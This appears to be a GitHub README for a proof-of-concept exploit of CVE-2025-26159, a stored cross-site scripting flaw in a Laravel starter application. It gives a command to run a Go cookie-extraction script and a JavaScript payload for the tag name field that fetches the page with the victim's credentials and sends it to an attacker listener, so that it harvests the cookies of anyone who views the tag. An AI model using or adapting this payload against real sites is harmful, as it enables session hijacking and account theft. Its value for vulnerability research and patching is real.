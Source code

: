 # CVE-2025-26159

> This script may only be used in authorized environments where explicit permission has been granted. The author is not responsible for any misuse, damage, or consequences resulting from the use of this script.


This script decodes, filters, and extracts cookies as part of the exploitation of CVE-2025-26159.

### Usage

To understand the explotation steps check out this [post](https://godbadtry.github.io/CVE-2025-26159) on my blog. 

```bash
go run CVE-2025-26159.go
```

In the tag name field of laravel starter add this payload:

```js
<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>
```

After a user visits the malicious tag's detail page, you will get his cookies.
